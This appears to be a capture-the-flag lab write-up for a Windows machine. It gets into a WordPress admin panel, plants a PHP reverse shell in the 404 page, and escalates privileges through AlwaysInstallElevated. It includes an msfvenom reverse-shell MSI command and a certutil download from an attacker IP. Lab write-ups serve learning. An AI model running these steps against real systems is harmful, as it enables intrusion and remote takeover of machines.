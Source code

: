 ![](../attachment/683a8bf8a546237e0ab4360ad57a2ada.png)

Now trying shenzi directory:
![](../attachment/f44ee02c7bacd48adb4650f635e8d0fd.png)
We have a wordpress website.

Now we can use wordpress creds:
![](../attachment/5a650e6fd66a661ab5d0e55ab5fc1795.png)


Now logging in at http://192.168.155.55/shenzi/wp-admin/ :
![](../attachment/d1fadc5a5b942be6fa80ccfda04dab38.png)

Editing the 404 error page with our php shell from revshells:
![](../attachment/214d4b5ab73aca4771d0de9d6bd83b44.png)
![](../attachment/91d412ed9b16e473a894f5419182a4ca.png)

Now visiting a website that doesn't exist:
http://192.168.155.55/shenzi/asdjknjaksnd
![](../attachment/6697dc394d436ef852046c48fc606f01.png)
We get a shell.

![](../attachment/d0a2040353437034bce6981129eac2a5.png)
Running winpeas we find AlwaysInstallElevated to 1

Now generating a payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.216 LPORT=445 -f msi > priv.msi
```

Now transfer this to the machine and run to get a reverse shell:
```
python3 -m uploadserver 80
```
```
certutil -urlcache -f http://192.168.45.216/priv.msi priv.msi
```
![](../attachment/511ea0c44ab5077267dc8c8366949082.png)
Now we get a shell:
![](../attachment/704b115325fb2342da8a5e8d47701bbd.png)
![](../attachment/4e66946701c2f1d88e1921b8db1cc730.png)\